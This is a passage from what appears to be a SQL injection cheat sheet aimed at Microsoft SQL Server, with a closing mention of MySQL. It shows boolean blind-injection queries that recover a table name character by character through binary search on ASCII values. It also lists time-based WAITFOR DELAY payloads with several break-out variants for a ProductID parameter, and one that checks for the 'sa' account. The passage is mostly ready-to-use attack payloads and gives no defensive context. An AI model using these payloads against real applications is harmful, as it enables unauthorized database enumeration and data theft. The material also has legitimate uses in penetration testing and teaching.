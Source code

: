 **TRUE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<89--  
  
**FALSE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83--  
  
**TRUE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<83--  
  
**FALSE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80--  
  
**FALSE**  : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<80--`

Since both of the  **last 2 queries failed** we clearly know table name's first char's  **ascii value is 80 which means first char is `P`**. This is the way to exploit Blind SQL injections by binary search algorithm. Other well known way is reading data bit by bit. Both can be effective in different conditions.

### Waiting For Blind SQL Injections

First of all use this if it's really blind, otherwise just use 1/0 style errors to identify difference. Second, be careful while using times more than 20-30 seconds. database API connection or script can be timeout.

#### WAIT FOR DELAY 'time' (S)

This is just like sleep, wait for spesified time. CPU safe way to make database wait.

`WAITFOR DELAY '0:0:10'--`

Also you can use fractions like this,

`WAITFOR DELAY '0:0:0.51'`

#### Real World Samples

-   Are we 'sa' ?  
    `if (select user) = 'sa' waitfor delay '0:0:10'`
-   ProductID =  `1;waitfor delay '0:0:10'--`
-   ProductID =`1);waitfor delay '0:0:10'--`
-   ProductID =`1';waitfor delay '0:0:10'--`
-   ProductID =`1');waitfor delay '0:0:10'--`
-   ProductID =`1));waitfor delay '0:0:10'--`
-   ProductID =`1'));waitfor delay '0:0:10'--`

#### BENCHMARK() (M)

Basically we are abusing this command to make MySQL wait a bit. Be careful you will consume web servers limit so fast!
